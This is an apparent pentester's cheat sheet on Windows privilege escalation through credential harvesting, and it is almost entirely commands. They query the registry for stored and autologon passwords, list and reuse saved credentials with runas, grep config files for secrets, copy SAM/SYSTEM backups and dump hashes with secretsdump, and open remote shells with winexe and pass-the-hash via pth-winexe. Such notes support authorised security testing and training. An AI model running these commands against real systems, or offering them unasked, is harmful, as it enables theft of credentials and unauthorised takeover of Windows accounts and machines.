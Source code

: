 # Passwords
-------

## Registry
--------
Searching registry keys and values that contain "password"
```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

```
.\winPEASany.exe quiet filesinfo userinfo
```

Autologon credentials:
```
REG QUERY "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon" /v DefaultUserName /reg:64


REG QUERY "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon" /v DefaultPassword /reg:64
```

Then we can spawn a shell using winexe:
```
winexe -U 'admin@password123' //IP cmd.exe
winexe -U 'admin@password123' --system //IP cmd.exe
```

Manual search:
```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```


## Saved Creds
--------
```
.\winPEASany.exe quiet cmd windowscreds
```

```
cmdkey /list
```

If we have a saved cred in memory we can run any command as that user.
```
runas /savecred /user:admin C:\windows\system32\cmd.exe
```

## Configurations Files
--------

```
.\winPEASany.exe quiet cmd filesinfo
```

```
dir /s *pass* == *.config
```

```
findstr /si password *.xml *.ini *.txt
```

## SAM
-----
If we have ability to read SAM and SYSTEM files, we can copy them and extract them using pypykatz, pwdump or mimikatz.

Backups of the files may exist in:
```
C:\Windows\Repair
```

```
C:\Windows\System32\config\RegBack
```

Or we can use the method shadow copy.

- [ ] check how to do that with pypykatz.

Extracting using secretsdump:
```bash
python3 /opt/wintools/impacket/examples/secretsdump.py -sam SAM -system SYSTEM LOCAL 
```

Pass the hash using pth-winexe:
```
pth-winexe -U 'admin%LM:NT' //IP cmd.exe

pth-winexe --system -U 'admin%LM:NT' //IP cmd.exe
```